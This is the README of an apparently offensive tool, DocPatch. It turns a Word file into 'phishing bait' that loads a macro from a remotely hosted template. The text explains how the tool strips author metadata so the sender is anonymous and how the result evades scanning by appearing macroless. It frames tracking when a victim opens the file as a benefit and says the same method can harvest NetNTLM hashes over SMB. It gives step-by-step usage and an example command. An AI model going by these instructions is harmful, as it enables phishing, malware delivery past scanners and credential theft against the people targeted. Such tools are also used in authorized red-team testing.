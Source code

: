 # DocPatch

DocPatch is a simple script that edits the XML of a macro-enabled Word document (.docm or Word 97 document) to add a reference to a remote stylesheet. The script produces an "armed" version of the document with the remote reference. bfore creating the final document, DocPatch strips out the author/creator metadata to anonymize the document.

This armed document is macroless and will appear entirely benign if scanned. When opened, the new document will try to fetch the remote stylesheet. The remote template, however, can contain a macro that will then be loaded before the document is opened. The user will see the typical "Enable Content" prompt for executing the macro.

As an added benefit, web server hits will let you know the document has been opened and Word is able to call out to an external resource. Even if the macro is not enabled or fails, you will have collecting some useful information.

## Usage

1. Create a Word document with your desired macro, save it as a macro-enabled template (.dotm), and then host it somewhere. It can be hosted using HTTP/S, WebDAV, or SMB.
2. Create the Word document that will be used as your phishing bait. It can be blank, a resume, a report, or anything else. The only requirement is the document must be saved as a macro-enabled document (.dotm) or a Word 97 document.
3. Provide your template URL and your bait document to DocPatch to produce the armed version.
4. Open the document in a test environment with a copy of Office. You should see requests to your server and may notice Word's splash screen mention it is contacting a server.
5. The document should then present you with an "Enable Content" prompt for the template's macro.

Note: If you use a file sharing service or something else that does not show you access logs it will be more difficult to know if your documents are landing and being opened.

### Example Command

`docpatch.py --doc resume.docm --server http://127.0.0.1:8000/template.dotm`

### Alternative Usage

This method can also be used to collect NetNTLM hashes using SMB.

## Installation

Using pipenv for managing the required libraries is the best option to avoid Python installations getting mixed-up. Do this:

1. Run: `pip3 install --user pipenv` or `python3 -m pip install --user pipenv`
2. Clone DocPatch's repo.
3. Run: `cd DocPatch && pipenv install`
4. Start using DocPatch by running: `pipenv shell`

If you would prefer to not use pipenv, the list of required packages can be found in the Pipfile file.